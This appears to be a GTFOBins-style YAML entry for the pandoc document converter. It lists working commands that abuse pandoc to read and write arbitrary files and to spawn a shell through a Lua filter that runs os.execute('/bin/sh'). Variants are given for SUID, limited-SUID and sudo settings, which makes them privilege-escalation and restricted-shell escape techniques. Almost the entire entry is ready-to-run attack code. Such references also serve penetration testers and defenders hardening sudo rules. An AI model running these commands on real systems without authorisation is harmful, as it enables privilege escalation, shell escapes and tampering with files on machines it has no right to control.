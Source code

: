 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        pandoc -t plain "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | pandoc -t plain -o "$LFILE"
  shell:
    - description: Pandoc has a builtin [`lua`](/gtfobins/lua/) interpreter for writing filters, other functions might apply.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' >$TF
        pandoc -L $TF /dev/null
  suid:
    - code: |
        LFILE=file_to_write
        echo DATA | ./pandoc -t plain -o "$LFILE"
  limited-suid:
    - description: Pandoc has a builtin [`lua`](/gtfobins/lua/) interpreter for writing filters, other functions might apply.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' >$TF
        ./pandoc -L $TF /dev/null
  sudo:
    - description: Pandoc has a builtin [`lua`](/gtfobins/lua/) interpreter for writing filters, other functions might apply.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' >$TF
        sudo pandoc -L $TF /dev/null
---
```

